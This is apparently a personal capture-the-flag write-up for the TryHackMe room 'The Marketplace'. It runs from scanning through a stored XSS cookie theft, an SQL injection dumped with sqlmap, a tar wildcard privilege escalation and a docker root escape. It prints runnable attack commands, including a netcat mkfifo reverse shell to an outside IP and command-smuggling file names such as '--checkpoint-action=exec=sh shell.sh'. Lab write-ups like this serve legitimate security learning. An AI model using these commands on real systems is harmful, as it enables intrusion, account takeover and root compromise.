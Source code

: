 #+TITLE: THM: The Marketplace
#+DATE: <2023-10-22 18:31>
#+DESCRIPTION: 
#+FILETAGS: tryhackme

* Reconnaisance
Running a quick ~nmap~ scan to get some initial information on the
target system:
#+NAME: Initial nmap scan
#+begin_src bash
nmap -sV -sC -oN nmap.initial 10.10.146.88
#+end_src

It gives us lot's of information:
#+begin_example
Nmap scan report for ip-10-10-146-88.eu-west-1.compute.internal (10.10.146.88)
Host is up (0.00021s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (EdDSA)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry
|_/admin
|_http-title: The Marketplace
MAC Address: 02:3C:29:73:B9:79 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
#+end_example

First things first, the target machine runs an ssh and (at least) one
http server. After going for some web enumeration, I started this
/fuller/ scan, to check whether I had missed something with the previous
one.

#+NAME: Nmap Full Port Scan
#+begin_src bash
nmap -p- -T4 10.10.146.88 | tee nmap.full
#+end_src

It's output was the same:
#+begin_example
Nmap scan report for ip-10-10-146-88.eu-west-1.compute.internal (10.10.146.88)
Host is up (0.00040s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
32768/tcp open  filenet-tms
MAC Address: 02:3C:29:73:B9:79 (Unknown)
#+end_example

** Web Analysis
I checked for ~robots.txt, security.txt, sitemap.xml~ files, out of
which only the first existed, without much information available to us:
#+caption: Robots.txt contents
[[file:images/20231022_185121_screenshot.png]]

Then, I ran ~gobuster~ while manually checking the website out:
#+NAME: Gobuster
#+begin_src bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://10.10.146.88 | tee gobuster.bigtxt
#+end_src

Its output was not much
#+begin_example
==============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.146.88
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/10/22 16:58:58 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/ADMIN (Status: 403)
/Admin (Status: 403)
/Login (Status: 200)
/admin (Status: 403)
/images (Status: 301)
/login (Status: 200)
/messages (Status: 302)
/new (Status: 302)
/robots.txt (Status: 200)
/signup (Status: 200)
/stylesheets (Status: 301)
===============================================================
2023/10/22 16:59:32 Finished
=========================================================
#+end_example

*** Creating a ~test~ user
Since the site was way too simple (I think about 4 almost blank
pages), I created a ~test~ user to see what extra functionality logging
in offered:

#+caption: Allowing for new listings and messages(!)
[[file:images/20231022_190304_screenshot.png]]

At this point I'm thinking that a Blind XSS might be the way to go.

In the new listings page we get that no file may be uploaded *due to
security issues*. That's not really a problem

#+caption: New listings page
[[file:images/20231022_190913_screenshot.png]]


I then created a listing with a sample XSS payload for proof of
concept. It worked fine.

#+caption: Creating a new listing
[[file:images/20231022_191002_screenshot.png]]




#+caption: Working XSS ~alert(1)~ payload
[[file:images/20231022_191112_screenshot.png]]

The problem, however, is that this is not enough. Ideally, I would
have to use an actual payload on a page that would be viewed by the
admins: These two buttons might be helpful for that, but for the time
being, checking the website's cookies seems equally promising

#+caption: Way to contact PPL (pun intended)
[[file:images/20231022_191849_screenshot.png]]

The cookie is of the typical form:
#+begin_example
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9eyJ1c2VySWQiOjYsInVzZXJuYW1lIjoidGVzdCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjk3OTkwMTQ4fQNxRVUKaYnmQAxWMchI-rMWA2C0FFOx-XXXdtV20Xe04
#+end_example
which, after decoding (it obviously is base64 encoded) reveals its
three parts:
#+begin_example
{"alg":"HS256","typ":"JWT"}
{"userId":6,"username":"test","admin":false,"iat":1697990148}
qEU i@V1H`Suvvw
#+end_example

At this point I could try crafting a cookie like this:
#+begin_example
{"alg":"none","typ":"JWT"}
{"userId":0,"username":"admin","admin":true,"iat":1697990148}

#+end_example

However, I do not know the username associated with ID:0, and I know
for a fact that ~admin~ user does not exists (I tried creating a user
~<space>admin~, hoping that would get me somewhere)

* XSS Exploitation
I first created a listing that would get me the cookie of anyone
viewing it:
#+caption: Malicious listing
[[file:images/20231022_193437_screenshot.png]]

I, then tested it on myself, and it worked just fine, so I proceeded
reporting it to the admins and hoping that someone would view it. It
did not disappoint.

When I got back from my water break, a cookie was waiting for me!!
#+caption: Admin's cookieeeeeee!
[[file:images/20231022_193832_screenshot.png]]

I used it and logged into the ~/admin~ page: The first flag was waiting
for me there !

#+caption: We're getting somewhere.
[[file:images/20231022_194020_screenshot.png]]

We see now that :
- There are two administrators (users 4 and 5 are my creation :P),
  ~jake~ and ~michael~. Ideally we would find a way to log in as either
  one, through SSH to the target machine.
- I can not give admin rights, I can only delete accounts.
- The admin's messages are empty, so there is unfortunately no secret
  password there.

I got stuck here, the only two options I'm thinking of are:
1. Trying to bruteforce one of the two admin accounts
2. Hoping for a known vulnerability of either ~nginx~ or ~node.jear~

Avoiding bruteforce when another option is possible, I opted for 2.
- Though I found some vulnerabilities, potentially useful under
  different circumstances, for ~nginx 1.19.2~, no exploit was readily
  available on exploit-db, and I doubt that a medium difficulty room
  would require me to develop my own exploit.
- I could not find any information on ~node.js~ however. If any reader
  has any suggestions for this part, I would love to hear them.

Seems like 1 is sadly the way to go... It was not. (I did not like
that option, and I was just sure I had missed something, so I searched
for a writeup online, I had overlooked an SQL Injection entry point)

* SQL Injection
More specifically, when selecting a user in the administration panel,
the website would point us to ~/admin?user=1~, which after testing with
the old classic ~' OR 1=1;--~, shows an error:

#+caption: SQL Error
[[file:images/20231022_200202_screenshot.png]]

Seeing that an SQLi could be beneficial, I used ~sqlmap~:
#+NAME: SQLmap, invalid
#+begin_src bash
sqlmap -u http://10.10.146.88/admin?user=1 --batch
#+end_src

It provided no output, and I did not like it, so I checked the output
for any hints why that happened. Immediately ~HTTP error code 403~
hinted the obvious: I had not taken advantage of my admin cookie.

Even after putting my cookie on, however, the problem persisted, and
even caused the cookie to be renewed, and no longer valid. It took
some tinkering for me to realize (through experimentation) that the
problem was in the sheer volume of my requests, and adding ~--delay=2~
eventually fixed the problem:

#+NAME: SQLmap, final
#+begin_src bash
sqlmap --url='http://10.10.146.88/admin?user=1' --cookie='token=DATOKEN' --technique=U --delay=2 --dump
#+end_src

Important notice: make sure to renew your attack box's timer every now
and then especially if you take breaks to tidy up the house while a
script is running. I did not, and lost all the output of sqlmap, on
the very first time it actually worked.


Long story short, we get some really nice data through ~sqlmap~, but the
most important is hidden in a message there: we get the password for ~jake~

And after logging in we get the second flag:
#+caption: The second flag
[[file:images/20231022_205347_screenshot.png]]

* Privilege escalation
Knowing that the last flag is a file called ~root.txt~ I used ~find~
hoping its output to show me its location. No luck though.

Next step was to check what I can ~sudo~:
- ~sudo -l~ show that I can run a specific file as sudo without password
- After inspecting it becomes relatively obvious that what I want now
  is to use a properly named file to mess with the ~tar cf
  /opt/backups/backup.tar *~ command that runs within that script. I
  did not remember exactly how, but a little bit of googling saved the
  day: (https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

I created a directory and worked in it (~wrk~), but it is not necessary.
In fact, this will work anywhere!
#+NAME: Create rev shell
#+begin_src bash
echo "rm -f /tmp/lhennp;mkfifo /tmp/lhennp; nc 10.10.199.235 6969 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
#+end_src

Please do not make the mistake of running the command as is :P. Run it
as michael with:j
#+NAME: Remember to run with sudo as michael
#+begin_src bash
sudo -u michael /opt/backups/backup.sh 
#+end_src

Finally we get the rev shell, and make it work a little bit better
with some python:
#+NAME: Upgrade Rev shell
#+begin_src bash
python -c 'import pty; pty.spawn("/bin/bash")'
#+end_src

The thing is that ~michael~ does not give us any advantage that ~jake~
does not have. If anything, michael can not even run ~sudo -l~ without a
password! Browsing through my privesc notes, I saw a hint about ~id~
which showed that ~michael~ is a member of the ~docker~ group

Listing the docker running instances got me thinking of using them to
get root privileges, which actually worked using the second command,
found in https://gtfobins.github.io/gtfobins/docker/
#+NAME: List docker instances
#+begin_src bash
docker ps
#+end_src

#+NAME: Get out of shell
#+begin_src bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
#+end_src

After becoming root there was nothing else to do. It was finally over. 

#+caption: THE END
[[file:Privilege_escalation/20231022_212928_screenshot.png]]


* Conclusion
I liked the room, a lot and it was on a good level for me to try and
complete, being neither too easy nor too hard. Not noticing the SQL
injection is something I plan to work on, and I am not satisfied with
my performance in the post-exploitation stage, getting stuck before
using the ~id~ command, but this is part of learning so... C'est la vie.  

#+begin_export html
<div class="tenor-gif-embed" data-postid="23474613" data-share-method="host" data-aspect-ratio="1.73913" data-width="100%"><a href="https://tenor.com/view/luffy-gif-23474613">Luffy GIF</a>from <a href="https://tenor.com/search/luffy-gifs">Luffy GIFs</a></div> <script type="text/javascript" async src="https://tenor.com/embed.js"></script>
#+end_export

